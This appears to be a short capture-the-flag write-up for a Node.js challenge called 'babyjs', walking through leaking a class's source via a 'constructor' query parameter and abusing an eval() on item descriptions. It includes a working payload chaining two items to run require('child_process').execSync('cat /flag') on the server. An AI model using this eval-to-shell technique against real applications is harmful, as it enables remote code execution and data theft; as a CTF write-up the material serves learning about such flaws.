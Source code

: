 # babyjs

#### 1. You can find "bag[names[i]]" in the diff file ("GET /items/bag?names[]=")
 ![](vuln.png)

#### 2. If you send the query "GET /items/bag?names[]=constructor", you can get the source code of class Bag
    * bag[constructor] ==> bag.constructor
 
 ![](leak.png)
<br> 
#### 3. If you add an item(Name:"@neRing"), you can run its description with "eval()". 
The length of the description is 30 or less, so you need to use another variable.
<br>
#### 4. Add below items.

```node
- First item
    * name: a
    * value: require('child_process').execSync('cat /flag')
- Second item
    * name: @neRing
    * value: this.a=eval(this.a)
```
![](payload.png)
    
#### 5. Get the flag.
![](exploit.png)
